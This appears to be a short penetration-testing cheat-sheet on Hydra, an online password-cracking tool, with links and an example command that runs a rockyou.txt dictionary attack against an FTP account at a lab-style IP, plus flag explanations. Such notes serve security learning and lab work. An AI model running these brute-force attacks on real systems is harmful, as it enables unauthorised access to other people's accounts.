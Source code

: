 # Hydra

- A very fast online password cracking
- Perform rapid dictionary attacks against more than 50 protocols (Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB, Databases, more...)
- https://github.com/vanhauser-thc/thc-hydra
- https://www.kali.org/tools/hydra/

## Command

```
hydra [options] [machine IP] [protocol]
```

```
hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp
```
- `-t 4` Number of parallel connections per target
- `-l [user]` Points to the user who's account you're trying to compromise
- `-P [path to dictionary]` Points to the file containing the list of possible passwords
- `-vV` Very verbose mode
